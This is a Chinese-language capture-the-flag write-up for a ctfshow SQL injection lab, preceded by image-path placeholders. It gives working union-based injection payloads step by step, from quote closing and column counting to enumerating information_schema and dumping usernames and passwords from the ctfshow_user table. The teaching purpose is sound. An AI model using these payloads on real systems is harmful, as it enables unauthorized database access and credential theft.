









拼接查询语句

首先闭合单引号，然后注释掉后面的语句

```
' --+
```

然后拼接

```
or 1=1
```



得到flag


由于是sql基础入门

因此尝试利用基础sql语法去写

首先利用order by判断回显数

```
1' order by 5 --+
```



order by 5 报错


```
1' order by 3 --+
```



正常返回，及3个回显数


联合查询判断回显位

```
-1' union select 1,2,3 --+
```




查询数据库名，用户和版本信息

```
-1' union select database(),user(),version() --+
```



数据库：ctfshow_web

用户名：root

版本信息：10.3.18-MariaDB


查询表名

```
-1' union select 1,2,table_name from information_schema.tables where table_schema="ctfshow_web" --+
```



存在ctfshow_user表


查询字段名

```
-1'union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user' --+
```



得到username和password字段


获取字段信息

-1'union select 1,username,password from ctfshow_user --+

